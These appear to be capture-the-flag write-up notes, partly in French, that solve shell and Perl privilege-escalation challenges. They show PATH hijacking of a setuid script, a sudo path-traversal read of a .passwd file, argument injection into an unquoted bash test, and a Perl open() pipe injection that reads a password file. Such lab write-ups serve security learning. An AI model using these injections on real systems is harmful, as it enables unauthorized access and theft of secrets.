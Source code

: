 ### Utilisation du PATH

Avec script c u+s

Copy de cat comme ls dans /tmp ou /var/tmp: $ cp /bin/cat /tmp/ls (n'importe quelle commande dont on a besoin cat ou nano ou autre)

modif du PATH dans lequelle les commande vont être exécutée: $ PATH=/tmp

éxecution du script qui va donc utiliser le cat comme ls

### Les dangers de sudo

sudo permet d'exécuter des commandes en tant qu'un autre utilisateur

sudo -l permet de voir quelle commandes peuvent être lancée et par quel utilisateur

sudo -u $user $commande

dans le cas de cette exercice:

```bash 
$ sudo -l
User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/*

$ sudo -u app-script-ch1-cracked cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd
```

### Unquoted variables

Solution

```
./wrapper "42 -o 1 -eq 1" 
````

Explanation
This condition needs to be passed (line 18):
````
if test $PASS -eq ${1}; then
````

Note that `${1}` is unquoted!
Hence, it will be "split" before being passed to the `test` command.

So, we need:

Something that is an integer to make a valid comparison to $PASS;
A condition that is always true: `1 -eq 1`.
And the condition will be split to become:
````
$PASS -eq 42 -o 1 -eq 1
````

Sources
Split/Glob effect on unquoted variables: https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells#answer-171347;
OR operation for the test command: https://tldp.org/LDP/abs/html/comparison-ops.html#CCOMPARISON1 .


### PERL - Command injection

setuid-wrapper SUID program execute the perl file ch7.pl
so after reading the perl issue article montioned in this challenge .
i found in code only The open() function so i focus on it issues here where the solution appear to me

The Perl documentation tells us that:

   If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us.
so i run
````
./setuid-wrapper
#it run python script as SUID permission
| /bin/cat ~/.passwd
````
et voila

thank you .
